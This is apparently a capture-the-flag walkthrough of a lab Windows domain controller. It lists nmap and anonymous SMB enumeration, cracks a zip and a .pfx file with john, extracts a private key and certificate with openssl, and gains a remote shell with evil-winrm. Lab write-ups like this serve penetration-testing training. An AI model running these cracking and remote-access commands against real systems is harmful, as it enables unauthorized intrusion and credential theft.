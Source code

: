 
└─$ nmap -sC -sV -Pn 10.10.11.152 -oN initial.nmap

    # Nmap 7.92 scan initiated Wed Apr 27 10:30:54 2022 as: nmap -sC -sV -Pn -oN initial.nmap 10.10.11.152
    Nmap scan report for 10.10.11.152
    Host is up (0.019s latency).
    Not shown: 989 filtered tcp ports (no-response)
    PORT     STATE SERVICE           VERSION
    53/tcp   open  domain            Simple DNS Plus
    88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2022-04-27 22:31:05Z)
    135/tcp  open  msrpc             Microsoft Windows RPC
    139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
    389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  ldapssl?
    3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
    3269/tcp open  globalcatLDAPssl?
    Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_clock-skew: 7h59m59s
    | smb2-security-mode: 
    |   3.1.1: 
    |_    Message signing enabled and required
    | smb2-time: 
    |   date: 2022-04-27T22:31:13
    |_  start_date: N/A

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Apr 27 10:31:49 2022 -- 1 IP address (1 host up) scanned in 55.41 seconds

smbclient -L //10.10.11.152 -N

      Sharename       Type      Comment
      ---------       ----      -------
      ADMIN$          Disk      Remote Admin
      C$              Disk      Default share
      IPC$            IPC       Remote IPC
      NETLOGON        Disk      Logon server share 
      Shares          Disk      
      SYSVOL          Disk      Logon server share 
    Reconnecting with SMB1 for workgroup listing.
    do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
    Unable to connect with SMB1 -- no workgroup available

Connect to `Shares` folder
`└─$ smbclient \\\\10.10.11.152\\Shares -N`

Once you are in, `mget` all the files in Shares folder. Use `prompt` to get rid of the yes/no confirmation. 

    smb: \> help prompt
    HELP prompt:
      toggle prompting for filenames for mget and mput

Crack the .zip with `zip2john` and `john` and get the .pfx file

Next step is to crack the password for the .pfx file with `pfx2john` and extract the `.crt` and `private key` from the .pfx file with the password found within .pfx. Use the following command to extract:

[Reference](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file)

Run the following command to extract the private key:

    openssl pkcs12 -in [yourfile.pfx] -nocerts -out [private.key]
    
Run the following command to extract the certificate:

    openssl pkcs12 -in [yourfile.pfx] -clcerts -nokeys -out [legacyy.crt]

Use the following command to get the foothold

    └─$ evil-winrm -i 10.10.11.152 -S -c legacyy.crt -k private.key
